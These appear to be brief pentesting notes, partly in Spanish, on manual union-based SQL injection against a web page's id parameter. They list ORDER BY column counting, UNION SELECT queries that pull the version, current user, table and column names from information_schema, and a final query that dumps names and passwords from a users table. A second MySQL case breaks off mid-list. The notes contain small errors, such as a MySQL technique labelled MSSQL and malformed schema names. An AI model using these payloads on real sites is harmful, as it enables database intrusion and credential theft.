
## case 1 MSSQL

Example :192.168.30.35/comment.php?id=437

```
?id=738 order by 1
?id=738 order by 2
?id=738 order by n
hasta que aparece un error " unkown column 7 in order clause"
```

ex 2

```
?id=738 union select 1,2,3,4,5,6
```

ex 3

```
?id=-1 union select 1,2,3,4,@@version,6
?id=-1 union select 1,2,3,4,user(),6
```

ex 4

```
?id=-1 union select 1,2,3,4,table_name,6 FROM information_schema tables
```

then

```
?id=-1 union all select 1,2,3,4,column_name,6 FROM information_schema columns where table_name='users'
esto nos devuelve que hay 4 columnas, id name password y country
```

then

```
id=-1 union select 1,2,name,4,password,6 FROM users
```



## case 2 MySQL

- enumerate columns
    
    ```
    http://[site]/page.php?id=1 order by 1/*
    http://[site]/page.php?id=1 order by 2/*
    http://[site]/page.php?id=1 order by 5/*
    5 gives a valid page
    ```
    
- union
    